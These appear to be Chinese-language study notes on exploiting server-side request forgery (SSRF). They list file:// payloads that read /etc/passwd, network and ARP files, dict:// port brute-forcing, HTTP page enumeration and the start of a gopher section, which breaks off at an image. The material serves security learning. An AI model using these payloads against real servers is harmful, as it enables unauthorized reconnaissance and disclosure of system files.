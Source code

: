 file:///etc/passwd 读取文件passwd

file:///etc/hosts 显示当前操作系统网卡的IP

file:///proc/net/arp 显示ARP缓存表（寻找内往下其他主机）

可以访问一个ip地址，挨个发送APR请求

file:///proc/net/fib_trie 显示当前网段路由信息

# 2.SSRF信息收集Dict伪协议

dict://167.250.250.$1$:$80$

爆破开启的端口

# 3.SSRF信息收集HTTP伪协议

http://172.250.250.1/$index$.php

爆破存在的页面

# 4.SSRF利用gopher伪协议学习

**gopher默认不提交第一位，第一位需要加上填充符**

## 1.get提交

![image-20240401151236777](SSRF/image-20240401151236777.png)
